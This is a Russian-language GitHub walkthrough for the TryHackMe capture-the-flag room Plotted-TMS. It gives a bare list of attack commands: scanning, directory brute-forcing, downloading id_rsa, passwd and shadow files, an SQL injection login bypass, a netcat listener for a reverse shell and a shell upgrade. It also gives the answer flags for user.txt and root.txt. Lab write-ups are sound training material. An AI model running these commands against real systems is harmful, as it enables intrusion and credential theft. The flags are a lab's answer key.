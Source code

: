 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Plotted-TMS](https://tryhackme.com/r/room/plottedtms) 

Всего 1 заданиe:
## Задание 1
Удачной охоты!

Совет: Перечисление — это ключ!

### Ответьте на вопросы ниже
Что такое user.txt?
```commandline
nmap -sV -sC -A -O <IP>
dirb http://<IP>/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
wget http://<IP>/admin/id_rsa
wget http://<IP>/passwd
wget http://<IP>/shadow

dirb http://<IP>:445 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
http://<IP>:445/management/
username: admin' or 1=1 -- -
pass: asdfg
nc -lvp 1234
python3 -c 'import pty;pty.spawn("/bin/bash")'
cat user.txt
```
```commandline
77927510d5edacea1f9e86602f1fbadb
```
Что такое root.txt?
```commandline
53f85e2da3e874426fa059040a9bdcab
```



[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)
